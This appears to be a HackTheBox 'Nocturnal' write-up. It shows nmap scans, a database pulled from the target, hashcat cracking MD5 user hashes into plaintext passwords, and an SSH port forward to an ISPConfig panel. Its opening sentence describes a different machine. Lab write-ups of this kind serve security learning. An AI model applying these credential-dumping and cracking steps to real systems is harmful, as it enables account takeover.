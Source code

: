 ```yaml
---
layout: post
title: HTB-Nocturnal
---
```


<p>In 2Million, we decoded a JS invite code to access the site, exploited an API to escalate to admin, injected commands for a reverse shell, found admin credentials, and gained root.</p>
<h2>Introduction</h2>

<pre>
nmap -p- -sV -sC 10.10.11.64
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-05 12:14 EDT
Nmap scan report for 10.10.11.64
Host is up (0.016s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

</pre>
<pre>
nmap -sC -sV -p- nocturnal.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-05 12:43 EDT
Nmap scan report for nocturnal.htb (10.10.11.64)
Host is up (0.011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Welcome to Nocturnal
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.08 seconds

</pre>

<pre>
Invalid file type. pdf, doc, docx, xls, xlsx, odt are allowed. 
</pre>

<pre>
wget nocturnal.htb:8888/nocturnal_database.db
Prepended http:// to 'nocturnal.htb:8888/nocturnal_database.db'
--2025-07-06 06:45:57--  http://nocturnal.htb:8888/nocturnal_database.db
Resolving nocturnal.htb (nocturnal.htb)... 10.10.11.64
Connecting to nocturnal.htb (nocturnal.htb)|10.10.11.64|:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 40960 (40K) [application/octet-stream]
Saving to: ‘nocturnal_database.db’

nocturnal_database.db                          100%[=================================================================================================>]  40.00K  --.-KB/s    in 0.02s   

2025-07-06 06:45:57 (2.31 MB/s) - ‘nocturnal_database.db’ saved [40960/40960]

</pre>
<pre>
python3 -m http.server 8888
</pre>
<pre>
sqlite3 nocturnal_database.db 
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
</pre>
<pre>
sqlite> .tables
uploads  users  
sqlite> select * from users;
1|admin|d725aeba143f575736b07e045d8ceebb
2|amanda|df8b20aa0c935023f99ea58358fb63c4
4|tobias|55c82b1ccd55ab219b3b109b07d5061d
6|kavi|f38cde1654b39fea2bd4f72f1ae4cdda
7|e0Al5|101ad4543a96a7fd84908fd0d802e7db
8|test|098f6bcd4621d373cade4e832627b4f6
9|elja|ba2da7908a3c2802c888a56b3c80f5e6
10|admin222|c4cefc53ca414d25294fd23b8fccd356
11|admin/a|48f1ef10bf65bd1226ec66178626e7b2
12|w47chm4n|4341c0fe0d9f48b01c1b9f56e3a88a1c
13|Aion|5f4dcc3b5aa765d61d8327deb882cf99
</pre>
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-skylake-avx512-AMD Ryzen 5 7600X 6-Core Processor, 6924/13913 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0                                                                                                                                           
Maximum password length supported by kernel: 256                                                                                                                                         
                                                                                                                                                                                         
Hashes: 4 digests; 4 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates                                                                                                             
Rules: 1                                                                                                                                                                                 

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

5f4dcc3b5aa765d61d8327deb882cf99:password                 
55c82b1ccd55ab219b3b109b07d5061d:slowmotionapocalypse     
Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: hashes.txt
Time.Started.....: Sun Jul  6 06:51:27 2025 (3 secs)
Time.Estimated...: Sun Jul  6 06:51:30 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  5754.6 kH/s (0.15ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 2/4 (50.00%) Digests (total), 2/4 (50.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 15%

</pre>

<pre>
ssh -L 8081:127.0.0.1:8080 tobias@nocturnal.htb
</pre>
<pre>
ISPConfig Version: 3.2.10p1
</pre>